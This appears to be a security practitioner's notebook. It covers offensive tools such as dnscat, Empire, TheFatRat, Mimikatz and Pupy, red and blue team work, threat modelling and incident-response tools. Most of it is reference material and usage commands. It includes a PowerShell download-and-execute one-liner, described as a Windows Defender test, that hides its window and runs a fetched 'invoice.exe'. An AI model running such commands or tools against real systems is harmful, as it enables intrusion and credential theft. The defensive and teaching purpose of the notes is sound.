DNScat is such praised tool because it can create a command and control tunnel over the DNS protocol which lets an attacker work in stealth mode. You can access any data along with uploading and downloading files and to get a shell. For this tool to work over 53 port, you don’t need to have authoritative access to DNS server, you can just simply establish your connection over port 53 and it will be faster and it will still be sensed as usual traffic. But it makes its presence well known in the packet log.

DNScat is made of two components i.e. a server and a client. To know the working of dnscat, it is important to understand both of these components.

The client is intended to be kept running on a target machine. It’s written in C and has the least amount of the prerequisites. When you run the client, you regularly indicate a domain name. All packets will be sent to the local DNS server, which is then directed to the legitimate DNS server for that domain (which you, apparently, have control of).

The server is intended to be kept running on a definitive DNS server. It’s developed in ruby and relies upon a few distinct gems. When you run it, much like the client, you indicate from which domain(s) it listens to over 53. When it gets traffic for one of those domains, it endeavours to set up a legitimate association. It gets other traffic it will automatically disregard it but, however, it can also advance it upstream.
Link: https://www.hackingarticles.in/dnscat2-command-and-control-over-the-dns/?

===== DNSSPOOF

===== Empire
Empire 3.0 is a post-exploitation framework that includes a pure-PowerShell 2.0 Windows agent, and compatibility with Python 2.x/3.x Linux/OS X agents. It is the merger of the previous PowerShell Empire and Python EmPyre projects. The framework offers cryptologically-secure communications and a flexible architecture. On the PowerShell side, Empire implements the ability to run PowerShell agents without needing powershell.exe, rapidly deployable post-exploitation modules ranging from key loggers to Mimikatz, and adaptable communications to evade network detection, all wrapped up in a usability-focused framework. PowerShell Empire premiered at BSidesLV in 2015 and Python EmPyre premeiered at HackMiami 2016. BC-Security presented updates to further evade Microsoft Antimalware Scan Interface (AMSI) and JA3/S signatures at DEF CON 27.

Empire relies heavily on the work from several other projects for its underlying functionality. We have tried to call out a few of those people we've interacted with heavily here and have included author/reference link information in the source of each Empire module as appropriate. If we have failed to properly cite existing or prior work, please let us know at Empire@BC-Security.org.

Empire is developed by @harmj0y, @sixdub, @enigma0x3, @rvrsh3ll, @killswitch_gui, @xorrior, and @bcsecurity1. While the main fork for Empire is no longer maintained, this fork is maintained by BC-Security and will continue to receive periodic updates.

https://github.com/BC-SECURITY/Empire/ 

===== Ettercap

===== Exiftool
Shows exif data about a file.   To ensure you get the correct date time meta data, always use wget.

===== Eyewitness

===== Evilarc
evilarc.py is an archiving tool that allows for folder manipulation.

===== FatRat
TheFatRat by Edo Maland, is a massive exploiting tool which compiles a malware with famous payloads, generate backdoor that allows easy post exploitation attacks such as browser attacks etc.. and then the compiled maware can be executed on Linux , Windows , Mac and Android. TheFatRat Provides An Easy way to create Backdoors and Payload which can bypass most anti-virus.

Link: https://www.blackhatethicalhacking.com/tools/thefatrat/


===== Ghidra
Ghidra is a software reverse engineering (SRE) framework created and maintained by the National Security Agency Research Directorate. This framework includes a suite of full-featured, high-end software analysis tools that enable users to analyze compiled code on a variety of platforms including Windows, macOS, and Linux. Capabilities include disassembly, assembly, decompilation, graphing, and scripting, along with hundreds of other features. Ghidra supports a wide variety of processor instruction sets and executable formats and can be run in both user-interactive and automated modes. Users may also develop their own Ghidra plug-in components and/or scripts using Java or Python.
Link: https://ghidra-sre.org/

===== Gitleaks

Link: https://github.com/zricethezav/gitleaks

===== Gobuster

Gobuster is a tool used to brute-force:

* URIs (directories and files) in web sites.
* DNS subdomains (with wildcard support).

Install

	sudo apt-get install gobuster

Usage

Scan a website (-u http://192.168.0.155/) for directories using a wordlist (-w /usr/share/wordlists/dirb/common.txt) and print the full URLs of discovered paths (-e):

	*Using dirb word lists* gobuster dir -u http://192.168.0.155/ -w /usr/share/wordlists/dirb/common.txt -o filename.txt
	*Using dirbuster word lists* gobuster dir -u http://192.168.0.155/ -w /usr/share/wordlists/dirbuster/directgory-list-2.3-medium.txt -o filename.txt
	*Using a cookie* gobuster dir -u http://192.168.0.155/ -w /usr/share/wordlists/dirbuster/directgory-list-2.3-medium.txt -o filename.txt -c 'cookievariable=valie'


[horizontal]
Source:: https://github.com/OJ/gobuster
Author:: OJ Reeves
License:: Apache-2.0
Syntax:: gobuster dir -u http://<site-name or IP address>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o dirbust-root.log

===== Hashcat

===== HTTPROBE
[horizontal]
Github:: https://github.com/tomnomnom/httprobe
Perform a scan on specific ports:: cat domains.txt | httprobe -s -p https:8443


===== Hydra

===== Impacket-secretsdump

===== JQ
jq is like sed for JSON data - you can use it to slice and filter and map and transform structured data with the same ease that sed, awk, grep and friends let you play with text.

jq is written in portable C, and it has zero runtime dependencies. You can download a single binary, scp it to a far away machine of the same type, and expect it to work.

jq can mangle the data format that you have into the one that you want with very little effort, and the program to do so is often shorter and simpler than you’d expect.

More information here: https://stedolan.github.io/jq/

===== Kali Linux

[horizontal]
Install ntpdate package:: sudo apt-get install ntpdate
Sync date & time with ntp source:: sudo ntpdate in.pool.ntp.org
Install all the tools on Kali:: sudo apt-get install kali-linux-full
Kali Tools Listing:: https://en.kali.tools/all/
Update Kali:: sudo apt-get update; sudo apt-get dist-upgrade;sudo apt-get clean

===== LinEnum
Linux enumeration & privilege escalation checks

Link: https://github.com/rebootuser/LinEnum



===== Mentalist
Mentalist is a graphical tool for custom wordlist generation. It utilizes common human paradigms for constructing passwords and can output the full wordlist as well as rules compatible with Hashcat and John the Ripper.
Link: https://github.com/sc0tfree/mentalist/blob/master/README.md

===== Metasploit

[horizontal]
On Kali metasploit is in this directory:: /usr/share/metssploit-framework
To Update metasploit:: apt update; apt install metasploit-framework
Metasploit Online Database:: https://www.rapid7.com/db/modules

===== Mimikatz
Mimikatz is a leading post-exploitation tool that dumps passwords from memory, as well as hashes, PINs and Kerberos tickets. Other useful attacks it enables are pass-the-hash, pass-the-ticket or building Golden Kerberos tickets. This makes post-exploitation lateral movement within a network easy for attackers.

Link: https://github.com/gentilkiwi/mimikatz



===== Nikto
Nikto is an Open Source (GPL) web server scanner which performs comprehensive tests against web servers for multiple items, including over 6700 potentially dangerous files/programs, checks for outdated versions of over 1250 servers, and version specific problems on over 270 servers. It also checks for server configuration items such as the presence of multiple index files, HTTP server options, and will attempt to identify installed web servers and software. Scan items and plugins are frequently updated and can be automatically updated.

Nikto is not designed as a stealthy tool. It will test a web server in the quickest time possible, and is obvious in log files or to an IPS/IDS. However, there is support for LibWhisker's anti-IDS methods in case you want to give it a try (or test your IDS system).


Not every check is a security problem, though most are. There are some items that are "info only" type checks that look for things that may not have a security flaw, but the webmaster or security engineer may not know are present on the server. These items are usually marked appropriately in the information printed. There are also some checks for unknown items which have been seen scanned for in log files.

https://cirt.net/Nikto2 

===== Powershell Empire
Empire has an inbuilt listener named http_hop which allows us to redirect our traffic to one of our another active listener after getting an agent. Thus, the name hop as it hops the agent from one listener to another in order to redirect traffic.

Similar to Metasploit, the hop listener in empire uses a hop.php file. When you activate the hop listener, it will generate three PHP files that will redirect your existing listener. Place the said files in your jump server (ubuntu) and then set up your stager in according to get the session through the mediator i.e. our hop listener.
Link: https://www.hackingarticles.in/hiding-ip-during-pentest-using-powershell-empire-http_hop/

===== Pupy
Pupy is a cross-platform, post exploitation tool as well as a multi-function RAT. It’s written in python which makes it very convenient. It also has low detectability that’s why it’s a great tool for the red team.  Pupy can communicate using multiple transports, migrate into processes using reflective injection, and load remote python code, python packages and python C-extensions from memory.

It uses a reflected DLL to load python interpreter from memory which is great as nothing will be shown in the disk. It doesn’t have any special dependencies. It can also migrate into other processes. The communication protocols of pupy are modular and stackable. It can execute non-interactive commands on multiple hosts at once. All the interactive shells can be accessed remotely.
Link: https://www.hackingarticles.in/command-control-tool-pupy/

===== Responder
This tool is first an LLMNR and NBT-NS responder, it will answer to *specific* NBT-NS (NetBIOS Name Service) queries based on their name suffix (see: http://support.microsoft.com/kb/163409). By default, the tool will only answers to File Server Service request, which is for SMB. The concept behind this, is to target our answers, and be stealthier on the network. This also helps to ensure that we don’t break legitimate NBT-NS behavior. You can set the -r option to 1 via command line if you want this tool to answer to the Workstation Service request name suffix.

Usage Example
Specify the IP address to redirect to (-i 192.168.1.202), enabling the WPAD rogue proxy (-w On), answers for netbios wredir (-r On), and fingerprinting (-f On):

	responder -i 192.168.1.202 -w On -r On -f On

===== Sbmclient

===== Sharp Cookie Monster

If you steal a users Chrome cookie, you can log into their accounts on every website they are logged into.

Normally you need the user’s password to do it, @mangopdf found a way to do it without the password. You just need to be able to execute code on their computer. It works by using Chrome’s Remote Debugging Protocol

This tool is based on Cookie Crimes module: https://github.com/defaultnamehere/cookie_crimes 

Link: https://www.blackhatethicalhacking.com/tools/sharp-cookie-monster/

===== Smbmap

===== SSLStrip

===== Sublist3r

Sublist3r is a python tool designed to enumerate subdomains of websites using OSINT. It helps penetration testers and bug hunters collect and gather subdomains for the domain they are targeting. Sublist3r enumerates subdomains using many search engines such as Google, Yahoo, Bing, Baidu, and Ask. Sublist3r also enumerates subdomains using Netcraft, Virustotal, ThreatCrowd, DNSdumpster, and ReverseDNS.

*Installation*
. Login as root
. Open a terminal session
. Change directory to /opt

	cd /opt

. Download the latest version from git

	git clone https://github.com/aboul3la/Sublist3r.git

. Change the directory to Sublist3r:

	cd Sublist3r

. Install the required dependencies:

	pip install -r requirements.txt

. Execute the sublist3r

	python sublist3r -h
	or
	./sublist3r.py -h 

[horizontal]
Source:: https://github.com/aboul3la/Sublist3r
Author:: Ahmed Aboul-Ela
License:: GPL-2+

===== TheHarvester

===== Tokenvator
A Tool to Elevate Privilege using Windows Tokens

Link: https://blog.netspi.com/tokenvator-a-tool-to-elevate-privilege-using-windows-tokens/

===== TruffleHog

Link: https://github.com/dxa4481/truffleHog

===== Wfuzz
Wfuzz is a tool designed for bruteforcing Web Applications, it can be used for finding resources not linked (directories, servlets, scripts, etc), bruteforce GET and POST parameters for checking different kind of injections (SQL, XSS, LDAP,etc), bruteforce Forms parameters (User/Password), Fuzzing,etc.

[horizontal]
Source:: https://github.com/xmendez/wfuzz/
Author:: Christian Martorella, Carlos del ojo, Xavier Mendez aka Javi
License:: GPLv2

===== Yara


==== Red team Assessment
A Red Team Assessment is similar to a penetration test in many ways but is more targeted. The goal of the Red Team Assessment is NOT to find as many vulnerabilities as possible. The goal is to test the organization's detection and response capabilities. The red team will try to get in and access sensitive information in any way possible, as quietly as possible. The Red Team Assessment emulates a malicious actor targeting attacks and looking to avoid detection, similar to an Advanced Persistent Threat (APT). (Ugh! I said it…) Red Team Assessments are also normally longer in duration than Penetration Tests. A Penetration Test often takes place over 1-2 weeks, whereas a Red Team Assessment could be over 3-4 weeks or longer, and often consists of multiple people.

A Red Team Assessment does not look for multiple vulnerabilities but for those vulnerabilities that will achieve their goals. The goals are often the same as the Penetration Test. Methods used during a Red Team Assessment include Social Engineering (Physical and Electronic), Wireless, External, and more. A Red Team Assessment is NOT for everyone though and should be performed by organizations with mature security programs. These are organizations that often have penetration tests done, have patched most vulnerabilities, and have generally positive penetration test results.

The Red Team Assessment might consist of the following:

A member of the Red Team poses as a Fed-Ex delivery driver and accesses the building. Once inside, the Team member plants a device on the network for easy remote access. This device tunnels out using a common port allowed outbound, such as port 80, 443, or 53 (HTTP, HTTPS, or DNS), and establishes a command and control (C2) channel to the Red Team's servers. Another Team member picks up the C2 channel and pivots around the network, possibly using insecure printers or other devices that will take the sights off the device placed. The Team members then pivot around the network until they reach their goal, taking their time to avoid detection.

This is just one of innumerable methods a Red Team may operate but is a good example of some tests we have performed.

* Offensive Security
* Ethical Hacking
* Exploiting Vulnerabilities
* Penetration Testing
* Black Box Testing
* Social Engineering
* Web App Scanning

===== Red Team Resources

. https://www.hackingarticles.in/red-teaming/ 

====== Remote Access Trojan (RAT)
Link: https://github.com/b4rtik/RedPeanut


==== Blue Team Assessment
Blue team assessment is usually a test of the teams' ability to identify and defend the network while under attack by the Red Teams/Penetration Tester/Hacker.

* Defensive Security
* Infrastructure Protection
* Damage Control
* Incident Response
* Operational Security
* Threat Hunters
* Digital Forensics

===== Powershell to test Windows Defender

	powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference= 'silentlycontinue';(New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\\test-WDATP-test\\invoice.exe');Start-Process 'C:\\test-WDATP-test\\invoice.exe'

==== Purple Team
* Collaborative Security
* Reand & Blue Teams Function Together
* Cooperate to improve/test detection
* Vulnerability Scanning & Pen Testing

==== Methods
social engineering, phishing, vishing or simply posing as a company employee.

=== Threat Modeling
Threat modeling is a process by which potential threats, such as structural vulnerabilities can be identified, enumerated, and prioritized – all from a hypothetical attacker’s point of view. The purpose of threat modeling is to provide defenders with a systematic analysis of the probable attacker’s profile, the most likely attack vectors, and the assets most desired by an attacker. Threat modeling answers the questions “Where are the high-value assets?” “Where am I most vulnerable to attack?” “What are the most relevant threats?” “Is there an attack vector that might go unnoticed?

It is a structured approach that enables you to identify, quantify, and address the security risks associated with an application. Threat modeling is not an approach to reviewing code, but it does complement the security code review process.

Some great information here  https://www.threatmodelingmanifesto.org/[Threat Modeling Manifesto]

==== CVSS
CVSS stands for Common Vulnerability Scoring System, which provides a score to indicate the severity of the CVE vulnerabilities.

Assignment of a CVSS score is based on:

* The primary impact on the confidentiality, integrity, and availability of the protected system/resources
* The derivative impact on loss of life and/or properties
* The percentage of the impacted area within the total environment
* How easy it is to exploit the vulnerability
* How easy it is to remediate the vulnerability
* How confident the testing team is about the existence of the vulnerability

==== NVD
National Vulnerability Database (NVD) is the U.S. government repository of standards based vulnerability management data. NVD also provides severity rankings of "Low," "Medium," and "High" in addition to the numeric CVSS scores. These qualitative rankings are simply mapped from the numeric CVSS scores:

* Vulnerabilities are labeled "Low" severity if they have a CVSS base score of 0.0-3.9.
* Vulnerabilities will be labeled "Medium" severity if they have a base CVSS score of 4.0-6.9.
* Vulnerabilities will be labeled "High" severity if they have a CVSS base score of 7.0-10.0

==== STRIDE
STRIDE is a model of threats developed by Praerit Garg and Loren Kohnfelder at Microsoft[1] for identifying computer security threats.[2] It provides a mnemonic for security threats in six categories.[3]

The threats are:

* **S**poofing of user identity
* **T**ampering
* **R**epudiation
* **I**nformation disclosure (privacy breach or data leak)
* **D**enial of service (D.o.S)
* **E**levation of privilege.

==== DREAD
DREAD methodology is used to rate, compare and prioritize the severity of risk presented by each threat that is classified using STRIDE.

* **D**amage
* **R**eproducibility
* **E**xploitability
* **A**ffected Users
* **D**iscoverability

DREAD Risk = (Damage + Reproduciblity + Exploitability + Affected Users + Discoverability) / 5. Calculation always produces a number between 0 and 10. Higher the number means more serious the risk is.

Following is a customized mathematical approach to implement DREAD methodology:-

*Damage Potential*
If a threat exploit occurs, how much damage will be caused?

* 0 = Nothing
* 5 = Information disclosure that could be used in combination with other vulnerabilities
* 8 = Individual/employer non sensitive user data is compromised.
* 9 = Administrative non sensitive data is compromised.
* 10 = Complete system or data destruction.
* 10 = Application unavailability.

*Reproducible*
How easy is it to reproduce the threat exploit?

* 0 = Very hard or impossible, even for administrators of the application.
* 5 = Complex steps are required for authorized user.
* 7.5 = Easy steps for Authenticated user
* 10 = Just a web browser and the address bar is sufficient, without authentication.

*Exploit-ability*
What is needed to exploit this threat?

* 2.5 = Advanced programming and networking knowledge, with custom or advanced attack tools.
* 5 = Exploit exits in public, using available attack tools.
* 9 = A Web Application Proxy tool
* 10 = Just a web browser

*Affected Users*
How many users will be affected?

* 0 = None
* 2.5 individual/employer that is already compromised.
* 6 = some users of individual or employer privileges, but not all.
* 8 = Administrative users
* 10 = All users

*Discover-ability*
How easy is it to discover this threat?

* 0 = Very hard requires source code or administrative access.
* 5 = Can figure it out by monitoring and manipulating HTTP requests
* 8 = Details of faults like this are already in the public domain and can be easily discovered using a search engine.
* 10 = the information is visible in the web browser address bar or in a form.

DREAD methodology can be customized to cater the needs of your application, during consultancy engagements it should be approved from the client before starting the security assessment so that after you perform the analysis the results produced by DREAD couldn’t be challenged.

=== Threat Intelligence
This is the key methodology that every cyber security practictioner should be familiar with.  It ensures that one stays in sync with all the activites of threat actors and use that information to proactively protect their environments.

==== Search Engines

===== IoT



==== Threat Exchanges


==== MITRE ATT&CK
https://attack.mitre.org/[MITRE ATT&CK™] is a globally-accessible knowledge base of adversary tactics and techniques based on real-world observations. The ATT&CK knowledge base is used as a foundation for the development of specific threat models and methodologies in the private sector, in government, and in the cyber security product and service community.

With the creation of ATT&CK, MITRE is fulfilling its mission to solve problems for a safer world — by bringing communities together to develop more effective cybersecurity. ATT&CK is open and available to any person or organization for use at no charge.

==== Open Threat Exchange(OTX)

==== Palo Alto Unit42
Unit 42 is the global threat intelligence team at Palo Alto Networks®

.. Palo Alto Unit42 website: https://unit42.paloaltonetworks.com/ 
.. Playbook: https://pan-unit42.github.io/playbook_viewer/ 

https://www.packetstormsecurity.com
https://www.securityfocus.com
https://www.exploit-db.com

==== Cisco Talos
Cisco Talos Intelligence Group is one of the largest commercial threat intelligence teams in the world, comprised of world-class researchers, analysits and engineers.  These teams are supposed by unrivaled telemetry and sophisticated systems to create accurate, rapid and actionable threat intelligence for Cisco Customers, products and services.  Talos defends Cisco customers against knowns and emerging threats, discovers new vulnerabilities in common software, and interdicts threats in the wild beofre they can further harm the internet at large.  Talos maintains the official rules sets of Snort.org, ClamAV, and SpanCop, in addition to releasing many open-source research and analysis tools.

Talos was formed by combining SourceFire's Vulnerability Research Team, the Cisco Threat Research and Communications group, and the Cisco Security Applications Group.  The combined expertise is backed by a sophisticated infrastrucutre, and Cisco's unrivaled telemetry of data that spans across networks, endpoints, cloud environments, virtual systems, and daily web and email traffic.

Link: https://talosintelligence.com/ 

==== Sophos Labs


Link: https://www.sophos.com/en-us/labs.aspx 

==== STIX
STIX (Structured Threat Information eXpression) was originally conceived as a language to describe cyber threat intelligence. This was groundbreaking at the time because it was the first language to provide a definition of cyber threat intelligence. Although it’s a bit of a fuzzy term, cyber threat intelligence generally describes information about adversaries and their behaviors that can inform defensive actions. For example, knowing that a certain adversary targets financial institutions by using specially crafted spear-phishing emails, and then delivers Trojans that will reach out to a certain set of websites that are known to be malicious, can be very helpful in defending against the attack. STIX captures that type of intelligence in a machine-readable form so that it can be shared among organizations and tools.

The DHS Office of Cybersecurity and Communications funded MITRE, beginning in 2012, to act as the technical developer of STIX and serve as a community facilitator to jumpstart STIX. Once some level of maturity was reached, STIX would be transitioned to an international standards body. That goal was realized in 2015 when governance of STIX was transitioned to OASIS, an international standards consortium. This was a big step for STIX and a big success for DHS, MITRE, and the community because it meant that STIX was on its way to becoming an international standard. Although DHS and MITRE continue to serve in several leadership positions in the CTI TC, the majority of the leadership and the vast majority of participants in the TC are from industry. In fact, the OASIS CTI TC was founded with more participants than any other TC in OASIS history. It's that community that led the development of STIX 2.0.

==== TAXII
TAXII is a high-level protocol for moving cyber threat intelligence (primarily STIX) data around between systems and tools. We expect that, within the coming months, TAXII will be achieving this same milestone and opening its own public review period.

If you're interested in learning more about STIX 2.0 or TAXII 2.0, the documentation page is the best place to start.

==== Tools

===== MISP
MISP - Open Source Threat Intelligence Platform & Open Standards For Threat Information Sharing

Link: https://www.misp-project.org/

=== Threat Hunting
Threat hunting is a relatively new focal area in information security.  Actively looking for C2C in your environment.  Firewalls, IDS/IPS, SIEM are not able to detect C2C.

*Beacons*
Looking for persistent outbound signal
* Is there consistency in timing
* 

==== Sysmon
Microsoft Sysinternals Sysmon configuration repository, set up modular for easier maintenance and generation of specific configs.
link: https://github.com/olafhartong/sysmon-modular

==== Detecting C2 over DNS
* Capture all DNS traffic
** Capture tool of your choice
** Longer the capture time, the better
* Filter so it is DNS traffic only
* Extract to text so we can sort and count
* Review total FQDNs per domain
* Check domain with a lot of FQDNs

==== RITA

Link: https://www.activecountermeasures.com/free-tools/rita/ 

==== Tshark
	tshark -q -z conv,ip -r dnscat2.pcapng | tr -s ' ' | cut -d " " -f 1,2,3,10 | sort -k 4 -rn | head 
	
	tshark -r thunt-lab.pcapng -T fields -e dns.qry.name | sort |uniq | rev | cut -d '.' -f 1-2 |rev | uniq -c | sort -rn | head -10

==== Zeek
Network sniffing tool, formerly called Bro.


==== Reference Sites
. https://pentestmag.com/using-the-mitre-attck-navigator-for-intelligence-gathering-pre-purple-teaming/
. https://www.activecountermeasures.com/raspberry_pi_sensor/
. https://knowledgebase.paloaltonetworks.com/KCSArticleDetail?id=kA10g000000ClarCAC
. https://gist.github.com/MSAdministrator/7a61025263e279a740835da4b205e6d0
. https://www.twistlock.com/2019/01/02/whitelisting-blacklisting-security-strategy/
. https://en.wikipedia.org/wiki/Domain_fronting
. https://www.bleepingcomputer.com/news/security/teamviewer-confirms-undisclosed-breach-from-2016/
. https://www.linkedin.com/posts/kirtaroza_cyberthreatintelligence-note-paython-activity-6600672896148959232-J-r8/
. https://github.com/activecm/passer
. http://www.stearns.org/doc/pcap-apps.html
. HELKS
. SELKS
. Packet Squirrel https://shop.hak5.org/products/packet-squirrel
. https://register.gotowebinar.com/register/2540509980495221261?source=ACMtwitter
. netgear gs305e

=== Threat Risk Assessments
*Threat*: Any potential actor that has the capability, motivation, or intent to exploit a vulnerability.
Vulnerability: Is a weakness that allows a threat to compromise the security of a system.

*Risk*: Likelihood of a threat source to exploit a vulnerability to target a critical asset and impact a business negatively.
Controls, safeguards, countermeasures are implemented to reduce the risk.

=== Bug Bounty / Crowsourced Security Platforms
. Hackerone
. Bugcrowd
. Synack
. Detectify
. cobalt
. Open Bug Bounty
. Zerocopter
. YesWeHack
. HackenProof
. Vulnerability Lab
. FireBounty
. BugBounty.jp
. AntiHACK
. Intigriti
. SafeHats
. RedStorm
. Cyber Army ID
. Yogosha

<<<
== Digital Forensics & Incident Response

=== Preparation
. Never use flow charts for incident response
. Know your tools, practise, practise, practise
. Have procedures on when and how to use your tools
. There are differences on how to respond to an incident based on based on environment, hence ensure you are familiar with the environment and know which tools to use.  Some to of environments are:
.. On Premise
.. Azure
.. GCP
.. AWS
.. Other cloud provider

=== During the Incident
. Secure the impacted environment to ensure no one but Incident Responders only
. Document every activity during the incident in a log to ensure you have a timeline
. Dump the memory using following tools(this is not an exhaustive list):
.. PMEM
.. FTKIMAGER
. Decide which logs do you need to conduct your analysis, for example:
.. Active Directory Logs if you are an AD Shop, 99% environments today are.
.. File Server Logs
.. Web Server Logs
.. Application Server Logs
.. Database Server Logs
.. Firewall Logs
.. Switch Logs
.. Router Logs
.. Access Point Logs

==== Windows Persistence
Focus on System & Security logs.  Standard artifact utilized in any investigation.

Following log types are important:

. Task logs 
. Events concerning services
.. 7045 - Code for new service installed, should be a low frequency event.
.. 7009 - Service failed to start, what should be running and is not.
.. 7035/7036 - Services being tampered with for malicious purposes. Look for services that have no descrption, and have image path that is in a non standard directory.  DLL is in the same directory as exe, which is a side loading technique. Check for start type, if it is changed to 2, which is auto start. Type 10 means that the service is running under user account authority.
.. 601 - Attempt to install a service
.. 7034 - Service has crashed unexpectedly
. Events concerning schedules tasks
.. 4698 - When a scheduled task is created on a system that has been compromised
.. 4702 - When a scheduled task has been altered
.. 4701/4699 
.. 4700 - A scheduled task has been enabled.

Scheduled tasks with abnormal names or directories.  Attackers usually create a verly long task name.  Check the command syntax.

=== System Tools

==== References
. https://holisticinfosec.io/post/deepbluecli/[DeepBlueCLI: Powershell Threat Hunting]
. https://www.netscylla.com/blog/2020/02/01/Threat-hunting-with-Windows-Event-Logs.html[Threat Hunting with Windows Event Logs & Sysmon]

==== Autollr
AutoLLR is a live Linux evidence collection script that gathers key artifacts important for Incident Response investigations. In addition to gathering artifacts AutoLLR does some low overhead post processing to produce refined results that analysts can look at immediately.

Github: https://github.com/Dead-Simple-Scripts/AutoLLR 

Dead Simple Scripts: http://github.com/Dead-Simple-Scripts 

==== Autopsy
Autopsy® is the premier end-to-end open source digital forensics platform. Built by Basis Technology with the core features you expect in commercial forensic tools, Autopsy is a fast, thorough, and efficient hard drive investigation solution that evolves with your needs.

https://www.autopsy.com/

==== Bluegate
Proof of Concept (Denial of Service + scanner) for CVE-2020-0609 and CVE-2020-0610.

These vulnerabilities allows an unauthenticated attacker to gain remote code execution with highest privileges via RD Gateway for RDP.

Please use for research and educational purpose only.
Link: https://github.com/ollypwn/BlueGate

==== Bulk-extractor
It is a program that extracts features such as email addresses, credit card numbers, URLs, and other types of information from digital evidence files. It is a useful forensic investigation tool for many tasks such as malware and intrusion investigations, identity investigations and cyber investigations, as well as analyzing imagery and pass-word cracking. The program provides several unusual capabilities including:

* It finds email addresses, URLs and credit card numbers that other tools miss because it can process compressed data (like ZIP, PDF and GZIP ﬁles) and incomplete or partially corrupted data. It can carve JPEGs, office documents and other kinds of files out of fragments of compressed data. It will detect and carve encrypted RAR files.
* It builds word lists based on all of the words found within the data, even those in compressed files that are in unallocated space. Those word lists can be useful for password cracking.
* It is multi-threaded; running bulk_extractor on a computer with twice the number of cores typically makes it complete a run in half the time.
* It creates histograms showing the most common email addresses, URLs, domains, search terms and other kinds of information on the drive.

Link: https://tools.kali.org/forensics/bulk-extractor

==== Cortex
https://github.com/TheHive-Project/Cortex/[Cortex] tries to solve a common problem frequently encountered by SOCs, CSIRTs and security researchers in the course of threat intelligence, digital forensics and incident response: how to analyze observables they have collected, at scale, by querying a single tool instead of several?

Cortex, an open source and free software, has been created by TheHive Project for this very purpose. Observables, such as IP and email addresses, URLs, domain names, files or hashes, can be analyzed one by one or in bulk mode using a Web interface. Analysts can also automate these operations thanks to the Cortex REST API.

==== Cuckoo
https://cuckoosandbox.org/[Cuckoo] Sandbox is the leading open source automated malware analysis system.You can throw any suspicious file at it and in a matter of minutes Cuckoo will provide a detailed report outlining the behavior of the file when executed inside a realistic but isolated environment.

Malware is the swiss-army knife of cybercriminals and any other adversary to your corporation or organization.

In these evolving times, detecting and removing malware artifacts is not enough: it's vitally important to understand how they operate in order to understand the context, the motivations, and the goals of a breach.

Cuckoo Sandbox is free software that automated the task of analyzing any malicious file under Windows, macOS, Linux, and Android.

==== DeepBlueCLI
https://github.com/sans-blue-team/DeepBlueCLI[DeepBlueCLI] is a PowerShell Module for Threat Hunting via Windows Event Logs.

==== DensityScout
DensityScout is a tool that has been written for one purpose: finding (possibly unknown) malware on a potentially infected system. Therefore it takes advantage of the typical approach of malware authors to protect their "products" with obfuscation like run-time-packing and -encryption. The tool itself is based on the concept of our Bytehist tool, btw.

*So what does DensityScout do?*
DensityScout's main focus is to scan a desired file-system-path by calculating the density of each file to finally print out an accordingly descending list. Usually most Microsoft Windows executables are not packed or encrypted in any way which throws the hits of malicious executables to the top of the list where one can easily focus on.

*What's Density?*
Density can also be understood as "entropy". However, the algorithm behind density is not 100% equal to the one which entropy is based on. So we decided to choose a different name.

Link: https://www.cert.at/downloads/software/densityscout_en.html

==== DNSTwist
https://www.blackhatethicalhacking.com/tools/dnstwist/[dnstwist] takes in your domain name as a seed, generates a list of potential phishing domains and then checks to see if they are registered. Additionally it can test if the mail server from MX record can be used to intercept misdirected corporate e-mails and it can generate fuzzy hashes of the web pages to see if they are live phishing sites.

==== First Incident Response
https://github.com/certsocietegenerale/FIR[FIR] (Fast Incident Response) is an cybersecurity incident management platform designed with agility and speed in mind. It allows for easy creation, tracking, and reporting of cybersecurity incidents.

FIR is for anyone needing to track cybersecurity incidents (CSIRTs, CERTs, SOCs, etc.). It was tailored to suit our needs and our team's habits, but we put a great deal of effort into making it as generic as possible before releasing it so that other teams around the world may also use it and customize it as they see fit.

==== Kape
KAPE is a multi-function program that primarily: 

. collects files
. processes collected files with one or more programs.

KAPE reads configuration files on the fly and based on their contents, collects and processes relevant files. This makes KAPE very extensible in that the program’s author does not need to be involved to add or expand functionality.

As we will see later in more detail, KAPE uses the concepts of targets and modules to do its work. KAPE comes with a range of default targets and modules for operations most commonly required in forensic exams. These can also serve as models  for creating new targets and modules.

At a high level, KAPE works by adding file masks to a queue. This queue is then used to find and copy files from a source location. For files that are locked by the operating system, a second run bypasses the lock. At the end of the process, KAPE will make a copy and preserve metadata about all available files from a source location into a given directory. The second (optional) stage of processing is to run one or more programs against the collected data. This too works by targeting either specific file names or directories. Various programs are run against the files, and the output from the programs is then saved in directories named after a category, such as EvidenceOfExecution, BrowserHistory or AccountUsage.

By grouping things by category, examiners of all skill levels have the means to discover relevant information regardless of an individual artifact's source. In other words, an examiner no longer need to know how to process prefetch, shimcache, amcache, userassist, etc., as they relate to evidence of execution artifacts. Ultimately, a wider range of artifacts can be leveraged for any given requirement.

Link: https://www.kroll.com/en/insights/publications/cyber/kroll-artifact-parser-extractor-kape

==== LogonTracer
https://github.com/JPCERTCC/LogonTracer[LogonTracer] is a tool to investigate malicious logon by visualizing and analyzing Windows Active Directory event logs. This tool associates a host name (or an IP address) and account name found in logon-related events and displays it as a graph. This way, it is possible to see in which account login attempt occurs and which host is used.
This tool can visualize the following event id related to Windows logon based on https://www.first.org/resources/papers/conf2016/FIRST-2016-105.pdf[this research].

* 4624: Successful logon
* 4625: Logon failure
* 4768: Kerberos Authentication (TGT Request)
* 4769: Kerberos Service Ticket (ST Request)
* 4776: NTLM Authentication
* 4672: Assign special privileges

==== Loki
LOKI Free IOC Scanner: http://www.nextron-systems.com/loki/ 

Loki Github: http://github.com/Neo23x0/Loki

Automating APT Scanning with Loki Scanner and Splunk: http://www.redblue.team/2017/04/automating-apt-scanning-with-loki.html

==== Red Ripper
When you an image file, load them into red ripper.  Has plugins that you can run against a registry hive.

==== Rekall
http://www.rekall-forensic.com/[Rekall] is an advanced forensic and incident response framework. While it began life purely as a memory forensic framework, it has now evolved into a complete platform.  Rekall implements the most advanced analysis techniques in the field, while still being developed in the open, with a free and open source license. Many of the innovations implemented within Rekall have been published in http://www.rekall-forensic.com/documentation-1/publications[peer reviewed papers] .  

Rekall provides an end-to-end solution to incident responders and forensic analysts. From state of the art acquisition tools, to the most advanced open source memory analysis framework. http://www.rekall-forensic.com/documentation-1/rekall-documentation/rekall-at-a-glance[Rekall at a glance].

==== Rsync
Last ditch collection tool.  

